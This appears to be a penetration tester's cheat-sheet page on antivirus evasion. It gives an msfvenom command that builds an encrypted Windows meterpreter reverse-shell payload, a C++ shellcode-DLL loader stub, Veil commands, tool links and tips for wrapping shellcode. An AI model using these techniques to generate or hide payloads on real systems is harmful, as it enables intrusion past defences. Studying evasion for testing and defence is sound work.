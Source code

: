 ```yaml
---
title: AV Evasion
category: Exploitation
order: 5
---
```


> **Encrypt: static**

{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c
{% endhighlight %}

> **Seperate the Shellcode from execution: dynamic**

{% highlight C %}
#include <iostream>
#include <Windows.h>

int main(void) {
  HMODULE hMod = LoadLibrary("shellcode.dll");
  if (hMod == nullptr) {
    cout << "Failed to load shellcode.dll" << endl;
  }

  return 0;
}
{% endhighlight %}

> **Veil** 

Show available Payloads | list
Information about Payload | info [payload]
Always: Clean State | clean
Select Payload | use [payload]
Show Options | options
Create Payload | generate
Output | /usr/share/veil-output/source

> **Syringe** 

https://github.com/securestate/syringe

> **Enigma Protector**

http://enigmaprotector.com/

> **Wrap the shellcode**

* Check for parent process 
* Check if you have been renamed from a long name

> **Write your own**

> **Other information**

* [Mimikatz](http://www.blackhillsinfosec.com/?p=5555)
* [Metasploit Templates and Veil](https://www.toshellandback.com/2015/09/30/anti-virus/)
* [Three Simple Disguises](https://www.blackhillsinfosec.com/three-simple-disguises-for-evading-antivirus/)
* [Metasploit Template](http://www.blackhillsinfosec.com/?p=4643)
* [Metasploit Encoding](https://pentestn00b.wordpress.com/2010/12/21/anti-virus-evasion-techniques/)
* [Rapid7 AV Evasion](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)
